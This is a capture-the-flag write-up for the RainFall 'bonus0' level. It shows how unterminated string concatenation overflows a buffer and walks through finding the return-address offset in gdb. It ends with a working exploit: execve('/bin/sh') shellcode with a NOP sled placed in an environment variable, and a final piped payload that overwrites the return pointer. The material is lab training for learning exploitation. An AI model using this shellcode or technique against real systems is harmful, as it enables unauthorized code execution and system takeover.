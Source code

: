 # Solution 

this program take two input from user concatenate them then print them

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
world
hello world
```

if the first input is at least 20 characters it wont be null terminated
and the second buffer will be read

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456789
 - 
world
01234567890123456789world world
```

So if both of our input are 20 character long we can have
a 61 character long (buf1+buf2+space+buf2) in a 42 long buffer
and rewrite the return pointer to a shellcode

finding the offset

```sh
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
01234567890123456789
 - 
AAAABBBBCCCCDDDDEEEE
01234567890123456789AAAABBBBCCCCDDDDEEEE��� AAAABBBBCCCCDDDDEEEE���

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()
```

offset is 9

we put the shellcode in env variable

```sh
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

find address of nop sled

```sh
(gdb) x/200x $ebp
0xbffff7ef:	 "SHELLCODE=...
```

building payload:
\-
buf1(20)
\-
padding(9) + nop sled address(4) + padding(7).  (total 20)

final payload:

```sh
(python -c 'print "A" * 20'; python -c 'print "B" * 9 + "\xef\xf7\xff\xbf" + "C" * 7'; cat -) | ./bonus0
```

